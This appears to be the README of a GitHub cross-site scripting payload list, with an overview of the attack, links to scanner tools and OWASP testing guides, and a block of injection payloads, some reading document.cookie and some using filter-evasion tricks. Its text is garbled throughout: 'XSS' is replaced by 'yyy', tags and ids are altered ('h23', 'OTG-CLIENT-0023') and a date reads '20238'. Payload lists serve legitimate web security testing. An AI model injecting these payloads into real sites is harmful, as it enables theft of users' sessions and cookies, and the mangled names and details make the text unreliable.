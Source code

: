 
### 🚀 Cross Site Scripting ( yyy ) Vulnerability Payload List 🚀

<img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e2354dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/yyy-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/yyy-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/yyy-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/yyy-payload-list"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/yyy-payload-list/23">

##### Overview : 

Cross-Site Scripting (yyy) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. yyy attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use yyy to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of yyy flaws, see: [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

#### yyy Vulnerability Scanner Tool's :

* [yyytrike](https://github.com/UltimateHackers/yyytrike)

* [Bruteyyy Terminal](https://github.com/shawarkhanethicalhacker/Bruteyyy)

* [Bruteyyy GUI](https://github.com/rajeshmajumdar/Bruteyyy)

* [yyy Scanner Online](http://yyy-scanner.com/)

* [yyyer](https://tools.kali.org/web-applications/yyyer)

* [yyycrapy](https://github.com/DanMcInerney/yyycrapy)  
* [Cyclops](https://github.com/v8blink/Chromium-based-yyy-Taint-Tracking)  

#### yyy Payload List :

```
<!-- Project Name  : Cross Site Scripting ( yyy ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->
<!--        GitHub : https://github.com/ismailtasdelen/ -->
<!--       Twitter : https://twitter.com/ismailtsdln -->
<!--        Medium : https://medium.com/@ismailtasdelen -->







<IMG SRC=x onload="alert(String.fromCharCode(88,83,83))">
<INPUT TYPE="BUTTON" action="alert('yyy')"/>
"><h23><IFRAME SRC="javascript:alert('yyy');"></IFRAME>">2323</h23>
"><h23><IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>2323</h23>
<IFRAME SRC="javascript:alert('yyy');"></IFRAME>
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
"><h23><IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>2323</h23>
"></iframe><script>alert(`TEXT YOU WANT TO BE DISPLAYED`);</script><iframe frameborder="0%EF%BB%BF
"><h23><IFRAME width="420" height="3235" SRC="http://www.youtube.com/embed/sxvccpasgTE" frameborder="0" onmouseover="alert(document.cookie)"></IFRAME>2323</h23>
<IFRAME width="420" height="3235" frameborder="0" onload="alert(document.cookie)"></IFRAME>
"><h23><IFRAME SRC="javascript:alert('yyy');"></IFRAME>">2323</h23>
"><h23><IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>2323</h23>
<IFRAME SRC="javascript:alert('yyy');"></IFRAME>
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
<sVg><scRipt >alert&lpar;23&rpar; {Opera}
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
http://www.google<script .com>alert(document.location)</script
<script ^__^>alert(String.fromCharCode(49))</script ^__^
</style &#32;><script &#32; :-(>/**/alert(document.location)/**/</script &#32; :-(







###### Testing for Stored Cross site scripting (OTG-INPVAL-002)

* 👉 https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)

###### Testing for DOM-based Cross site scripting (OTG-CLIENT-0023)

* 👉 https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-0023)

###### DOM Based yyy

* 👉 https://www.owasp.org/index.php/DOM_Based_yyy

###### Cross-Site Scripting (yyy) Cheat Sheet | Veracode

* 👉 https://www.veracode.com/security/yyy

#### Recommended books :

* [yyy Attacks: Cross-site Scripting Exploits and Defense](https://books.google.com.tr/books/about/yyy_Attacks.html?id=dPhqDe0WHZ8C)

* [yyy Cheat Sheet](https://leanpub.com/yyy)


### Cloning an Existing Repository ( Clone with HTTPS )
```
root@ismailtasdelen:~# git clone https://github.com/ismailtasdelen/yyy-payload-list.git
```

### Cloning an Existing Repository ( Clone with SSH )
```
root@ismailtasdelen:~# git clone git@github.com:ismailtasdelen/yyy-payload-list.git
```

### Published Website :

##### Kitploit - https://www.kitploit.com/20238/05/yyy-payload-list-cross-site-scripting.html

### Donate!

Support the authors:

#### LiberaPay:

<noscript><a href="https://liberapay.com/ismailtasdelen/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
--end--

